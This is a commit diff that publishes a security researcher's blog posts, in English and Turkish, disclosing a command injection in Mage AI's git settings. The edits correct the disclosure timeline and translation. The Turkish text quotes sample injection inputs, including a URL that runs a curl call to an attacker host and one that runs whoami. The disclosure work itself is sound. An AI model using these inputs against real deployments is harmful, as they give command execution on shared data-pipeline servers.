

Before and after one commit to aydinnyunus/aydinnyunus.github.io, a Jekyll site: the page built from tr/blog.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
feat: publish Mage AI command injection posts (EN + TR) for Oct 6
Align disclosure facts with the GitHub record before publishing: fix PR
#6117 (opened by gistrec referencing the report) merged June 23, 2026
and closed issue #4924. Rewrite intro/timeline/closing to past tense,
add follow-up issue #6166, sync dates and canonical URLs to 2026-10-06,
and apply TR localization fixes (title tense, missing RCE sentence,
literal-translation artifacts).

Co-Authored-By: Claude <noreply@anthropic.com>

````diff
--- a/_drafts/2026-06-14-command-injection-mage-ai-git-utils-tr.md
+++ b/_posts/2026-10-06-command-injection-mage-ai-git-utils-tr.md
@@ -1,15 +1,15 @@
 ---
 layout: post
-title: "Mage AI git config'inde command injection (26 aydır açık)"
+title: "Mage AI git config'inde command injection (26 ay açık kaldı)"
 author: Yunus Aydın
-date: 2026-06-14
+date: 2026-10-06
 lang: tr
-description: "Mage AI'ın add_host_to_known_hosts fonksiyonunda command injection. Nisan 2024'te raporladım, 26 ay sonra hala master'da düzeltilmedi."
+description: "Mage AI'ın add_host_to_known_hosts fonksiyonunda command injection. Nisan 2024'te raporladım, 26 ay sessizlikten sonra Haziran 2026'da düzeltildi."
 keywords: "mage-ai, command injection, shell=true, CWE-78, Python güvenlik, urlparse, ssh-keyscan, subprocess, data pipeline güvenlik, güvenlik araştırması"
-canonical_url: "https://aydinnyunus.github.io/2026/06/14/command-injection-mage-ai-git-utils-tr/"
+canonical_url: "https://aydinnyunus.github.io/2026/10/06/command-injection-mage-ai-git-utils-tr/"
 ---
 
-Bu OS command injection'ı [mage-ai](https://github.com/mage-ai/mage-ai) projesine 11 Nisan 2024'te [issue #4924](https://github.com/mage-ai/mage-ai/issues/4924) olarak raporladım. `bug` etiketi aldı, beş gün sonra bir maintainer'a atandı, sonra hiçbir şey olmadı. Bugün, 14 Haziran 2026 itibarıyla fonksiyon hala `master`'da savunmasız. 26 aydır açık. 4 Haziran'da reproduction ve regression testle birlikte kendi fix PR'ımı ([#6117](https://github.com/mage-ai/mage-ai/pull/6117)) açtım; daha review edilmedi.
+Bu OS command injection'ı [mage-ai](https://github.com/mage-ai/mage-ai) projesine 11 Nisan 2024'te [issue #4924](https://github.com/mage-ai/mage-ai/issues/4924) olarak raporladım. `bug` etiketi aldı, beş gün sonra bir maintainer'a atandı, sonra hiçbir şey olmadı. Fonksiyon `master`'da 26 ay boyunca savunmasız bekledi. 4 Haziran 2026'da başka bir contributor benim raporuma atıfla bir fix PR'ı ([#6117](https://github.com/mage-ai/mage-ai/pull/6117)) açtı; mevcut `master`'a karşı doğrulayıp onayladım, 23 Haziran'da merge edildi ve issue kapandı. Raporlamadan yamaya 26 ay.
 
 Bunu, data orchestration tool'larının ne kadar çoğunun SSH üzerinden git'e delege ettiğini fark ettikten sonra repo'da `shell=True` arayarak buldum. Mage AI Python tabanlı bir pipeline aracı (Airflow alternatifi gibi düşün) ve git entegrasyonu kullanıcıların UI'dan remote bir repo bağlamasına izin veriyor. O URL doğrudan shell'e akıyor.
 
@@ -23,7 +23,7 @@ def run_command(command: str) -> None:
     proc.wait()
 ```
 
-Önemli olan caller `add_host_to_known_hosts`. Kullanıcıdan remote repo URL'ini alıyor, `urlparse`'tan geçiriyor, sonucu shell string'ine yedirir:
+Önemli olan caller `add_host_to_known_hosts`. Kullanıcıdan remote repo URL'ini alıyor, `urlparse`'tan geçiriyor, sonucu shell string'ine besler:
 
 ```python
 def add_host_to_known_hosts(remote_repo_link: str):
@@ -79,7 +79,7 @@ Aynı root cause, daha küçük test ortamı.
 
 ## Nasıl tetikleniyor
 
-Mage AI, proje sahibinin remote repository URL'ini girebileceği bir git settings UI sunuyor. O URL `add_host_to_known_hosts`'un input'u. Zafiyet bağlantı ilk kurulduğunda ateşleniyor. Multi-tenant deployment'ta (Mage AI yaygın olarak bir data takımı için paylaşımlı internal servis olarak çalıştırılır), git remote'unu konfigüre edebilen herhangi bir kullanıcı Mage AI process kullanıcısı olarak komut çalıştırabilir. O process tipik olarak pipeline credential'larına, warehouse bağlantılarına ve host'a bağlı cloud IAM role'üne erişim sahibi.
+Mage AI, proje sahibinin remote repository URL'ini girebileceği bir git settings UI sunuyor. O URL `add_host_to_known_hosts`'un input'u. Zafiyet bağlantı ilk kurulduğunda ateşleniyor. Multi-tenant deployment'ta (Mage AI yaygın olarak bir data takımı için paylaşımlı internal servis olarak çalıştırılır), git remote'unu konfigüre edebilen herhangi bir kullanıcı Mage AI process kullanıcısı olarak komut çalıştırabilir. O process tipik olarak pipeline credential'larına, warehouse bağlantılarına ve host'a bağlı cloud IAM role'üne erişim sahibi. Pratikte bu, IAM role'ünün izin verdiği etki alanıyla orchestrator üzerinde RCE demek.
 
 ## Düzeltme
 
@@ -110,7 +110,7 @@ Aynı fix `create_ssh_keys`'e de uygulanmalı; o da CodeCommit URL'lerini tespit
 
 ## Bu pattern neden tekrar tekrar çıkıyor
 
-`shell=True` daha önce bir bash one-liner yazmış olan herkesin default mental modeli. Pipe ve redirect olarak düşünüyorsun, string olarak yazıyorsun, `subprocess.Popen` o string'i hiç şikayet etmeden kabul ediyor. Liste-of-args formu gerçekten `>>` veya `|`'ye ihtiyacın olduğunda daha hantal hissettiriyor, o yüzden insanlar istedikleri redirect'i almak için `shell=True`'ya uzanıyor ve sonra geri dönmüyor.
+`shell=True` daha önce bir bash one-liner yazmış olan herkesin default mental modeli. Pipe ve redirect olarak düşünüyorsun, string olarak yazıyorsun, `subprocess.Popen` o string'i hiç şikayet etmeden kabul ediyor. Argüman listesi formu gerçekten `>>` veya `|`'ye ihtiyacın olduğunda daha hantal hissettiriyor, o yüzden insanlar istedikleri redirect'i almak için `shell=True`'ya uzanıyor ve sonra geri dönmüyor.
 
 İşin öbür yanı, `urlparse`'ın sanitization gibi görünmesi. `hostname` attribute'u dönüyor. Değeri küçük harfe çeviriyor. Port'u siliyor. URL parse edilmiş ve valide edilmiş gibi hissettiriyor. Bunların hiçbiri güvenlik anlamında doğru değil. `urlparse` sana `https://;whoami` için de hostname dönecek, `https://$(curl attacker.com)` için de, `https://a b c` için de. O bir yapısal parser, allowlist değil. Çıktıyı bir shell komutuna interpolate etmek için güvenli kabul eden herkes contract'ı yanlış okumuş.
 
@@ -118,12 +118,13 @@ Aynı pattern (kullanıcı kontrolündeki URL, validation gibi görünen yapısa
 
 ## Raporlama zaman çizelgesi
 
-- **11 Nisan 2024**: Ben mage-ai'a [issue #4924](https://github.com/mage-ai/mage-ai/issues/4924) olarak PoC ile birlikte raporladım.
+- **11 Nisan 2024**: PoC ile birlikte mage-ai'a [issue #4924](https://github.com/mage-ai/mage-ai/issues/4924) olarak raporladım.
 - **16 Nisan 2024**: Issue bir maintainer'a atandı. Sonra hiç aktivite yok.
-- **4 Haziran 2026**: Ben mevcut `master`'a karşı doğrulanmış reproduction, minimal fix ve regression testle [PR #6117](https://github.com/mage-ai/mage-ai/pull/6117)'ı açtım.
-- **14 Haziran 2026**: `master`'da hala düzeltilmedi. PR review bekliyor.
+- **4 Haziran 2026**: gistrec, benim raporuma atıfla mevcut `master`'a karşı doğrulanmış reproduction, minimal fix ve regression test içeren [PR #6117](https://github.com/mage-ai/mage-ai/pull/6117)'yi açtı. İnceleyip onayladım.
+- **23 Haziran 2026**: PR `master`'a merge edildi, issue #4924 kapandı. Toplam açık kalma süresi: 26 ay.
+- **24 Temmuz 2026**: Devam issue'su [#6166](https://github.com/mage-ai/mage-ai/issues/6166): yamalanmış fonksiyon `ssh-keyscan` başarısız olduğunda yine de `True` dönüyor. Fix injection'ı kapattı, özensizliği kapatmadı.
 
-Mage AI'ı production'da çalıştırıyorsan, bu patch'lenene kadar git settings sayfasını güvenilmeyen kullanıcılara açma. Fork çalıştırıyorsan, PR #6117'deki değişikliği kendin uygula. 26 ay bekleme.
+Mage AI'ı production'da çalıştırıyorsan, PR #6117'yi içeren bir sürüme geç. Eski bir sürüm ya da fork çalıştırıyorsan, remote konfigüre edebilen her kullanıcı için git settings sayfası hala bir RCE yüzeyi. Bir şey maintain ediyorsan: elinde çalışan PoC olan bir reporter'ı tek satırlık fix için 26 ay bekletme.
 
 ## Referanslar
 
--- a/_drafts/2026-06-14-command-injection-mage-ai-git-utils.md
+++ b/_posts/2026-10-06-command-injection-mage-ai-git-utils.md
@@ -2,14 +2,14 @@
 layout: post
 title: "Command injection in Mage AI's git config (26 months unpatched)"
 author: Yunus Aydın
-date: 2026-06-14
+date: 2026-10-06
 lang: en
-description: "Command injection in mage-ai's add_host_to_known_hosts via unvalidated git URL parsing. Reported April 2024, still open in master 26 months later."
+description: "Command injection in mage-ai's add_host_to_known_hosts via unvalidated git URL parsing. Reported April 2024, patched June 2026 after 26 months of silence."
 keywords: "mage-ai, command injection, shell=true, CWE-78, Python security, urlparse, ssh-keyscan, subprocess, data pipeline security, security research"
-canonical_url: "https://aydinnyunus.github.io/2026/06/14/command-injection-mage-ai-git-utils/"
+canonical_url: "https://aydinnyunus.github.io/2026/10/06/command-injection-mage-ai-git-utils/"
 ---
 
-I reported this OS command injection to the [mage-ai](https://github.com/mage-ai/mage-ai) project on April 11, 2024 as [issue #4924](https://github.com/mage-ai/mage-ai/issues/4924). It got the `bug` label, got assigned to a maintainer five days later, and then nothing. As of today, June 14, 2026, the function is still vulnerable in `master`. That is 26 months open. I opened my own fix PR ([#6117](https://github.com/mage-ai/mage-ai/pull/6117)) on June 4 with a reproduction and regression test; it has not been reviewed yet.
+I reported this OS command injection to the [mage-ai](https://github.com/mage-ai/mage-ai) project on April 11, 2024 as [issue #4924](https://github.com/mage-ai/mage-ai/issues/4924). It got the `bug` label, got assigned to a maintainer five days later, and then nothing. The function sat vulnerable in `master` for 26 months. On June 4, 2026, a contributor opened [PR #6117](https://github.com/mage-ai/mage-ai/pull/6117) with a fix referencing my report; I verified it against current `master`, approved it, and it merged on June 23, closing the issue. Twenty-six months from report to patch.
 
 I found this while grepping the repo for `shell=True` after noticing how many data orchestration tools delegate to git over SSH. Mage AI is a Python-based pipeline tool (think Airflow alternative) and its git integration lets users wire a remote repo into the UI. That URL flows straight into a shell.
 
@@ -120,10 +120,11 @@ The shape of this bug (user controlled URL, structural parsing that looks like v
 
 - **April 11, 2024**: I reported the vulnerability to mage-ai as [issue #4924](https://github.com/mage-ai/mage-ai/issues/4924) with the PoC.
 - **April 16, 2024**: Issue assigned to a maintainer. No further activity.
-- **June 4, 2026**: I opened [PR #6117](https://github.com/mage-ai/mage-ai/pull/6117) with the verified reproduction against current `master`, a minimal fix, and a regression test.
-- **June 14, 2026**: Still unpatched on `master`. PR awaiting review.
+- **June 4, 2026**: Contributor gistrec opened [PR #6117](https://github.com/mage-ai/mage-ai/pull/6117), referencing my report, with a verified reproduction against current `master`, a minimal fix, and a regression test. I reviewed and approved it.
+- **June 23, 2026**: PR merged into `master`; issue #4924 closed. Total time open: 26 months.
+- **July 24, 2026**: Follow-up issue [#6166](https://github.com/mage-ai/mage-ai/issues/6166): the patched function still returns `True` when `ssh-keyscan` fails. The fix closed the injection, not the sloppiness.
 
-If you are running Mage AI in production, do not expose the git settings page to untrusted users until this is patched. If you are running a fork, apply the change from PR #6117 yourself. Don't wait 26 months.
+If you are running Mage AI in production, upgrade to a build that includes PR #6117. On older versions and forks, the git settings page is still an RCE surface for anyone allowed to configure a remote. And if you maintain something: don't make a reporter with a working PoC wait 26 months for a one-line fix.
 
 ## References
 
````
